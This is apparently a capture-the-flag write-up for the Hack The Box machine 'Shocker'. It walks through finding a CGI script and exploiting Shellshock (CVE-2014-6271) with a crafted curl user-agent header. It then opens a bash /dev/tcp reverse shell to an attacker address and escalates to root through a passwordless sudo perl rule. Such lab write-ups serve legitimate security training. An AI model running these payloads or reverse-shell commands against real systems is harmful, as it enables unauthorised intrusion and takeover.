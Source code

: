 # Shocker

We proceed with this bad boy :D

## Port 80

We see that on port 80 we have a page and with the nmap scan we know that we are running on a Apache server.

We run dirbuster on the route `/cgi-bin/` and we find a file called user.sh
so we run in to the **[CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)** and we run


```
curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
```

After this we get 

*uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)*

so we proceed with the ol'reverse shell

* `nc -lvp 8080`
* `bash -i >& /dev/tcp/10.10.10.10/8080 0>&1`

We combine the *curl* and old reverse shell and our bad boy is ready to go

```
└─$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/8080 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

We type `sudo -l` we find that we have sudoer privileges so we scale trough that since we see *(root) NOPASSWD: /usr/bin/perl* we can just do this

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

We run `whoami`  and surprise we are *root* so we capture the flag!